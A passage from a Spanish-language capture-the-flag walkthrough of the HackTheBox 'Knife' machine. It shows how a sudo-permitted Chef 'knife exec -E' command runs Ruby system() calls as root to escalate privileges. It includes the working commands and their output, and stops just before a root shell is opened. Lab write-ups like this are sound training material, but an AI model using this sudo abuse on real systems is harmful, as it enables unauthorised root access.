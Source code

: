 👩‍🍳 ***`Chef` [es un sistema de automatización](https://www.linkeit.com/es/blog/glosario-terminos-chef-server) que facilita el despliegue de servidores y aplicaciones.***

🔪 ***Y [Knife](https://docs.chef.io/workstation/knife/) es una herramienta de terminal que interactúa con un <u>servidor Chef</u>...***

Buscando cositas sobre ella y como aprovecharnos de su uso para escalar privilegios, encontramos:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/knife/347google_knifelinuxexploit.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

**Knife** tiene un *subcomando* llamado `exec`, el cual permite la ejecución de scripts **Ruby**. 

Echándole un ojo a la [wiki de **knife_exec**](https://docs.chef.io/workstation/knife_exec/) encontramos su uso:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/knife/347google_wiki_knifelinuxexploit_opts.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/knife/347google_wiki_knifelinuxexploit_examples.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Tenemos la opción `-E` que ejecuta código directamente, pues intentemos jugar con ella...

* [How to run **System Commands** from Ruby](https://www.rubyguides.com/2018/12/ruby-system/).

Es muy simple, si queremos ejecutar el comando `id`, lo haríamos así:

```ruby
system("id")
```

¿Sencillito, no? Pues hagámoslo pero con **knife exec**:

```bash
james@knife:/$ /usr/bin/knife exec -E 'system("id")'
```

Ejecutamos para saber el **id** del usuario que esta ejecutando el proceso y obtenemos:

```bash
james@knife:/$ /usr/bin/knife exec -E 'system("id")'
WARNING: No knife configuration file found. See https://docs.chef.io/config_rb/ for details.
uid=1000(james) gid=1000(james) groups=1000(james)
```

Y si, nos ejecuta comandos en este caso como **james**, ya que no le hemos indicado que ejecute `/usr/bin/knife` con otros permisos o como otro usuario :P (sin [sudo](https://es.wikipedia.org/wiki/Sudo))

Ahora hagámoslo con los permisos del usuario **root** a ver si funciona (**sudo** solito le indica al sistema que queremos jugar con el usuario **root**, o también podríamos indicárselo usando `-u root`):

```bash
james@knife:/$ sudo /usr/bin/knife exec -E 'system("id")'
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/knife/347bash_knifeexec_idroot.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Opa la popa, estamos ejecutando comandos en el sistema como el usuario **root** 😃 Pues ejecutémonos una `/bin/bash` ahí de rapidez:
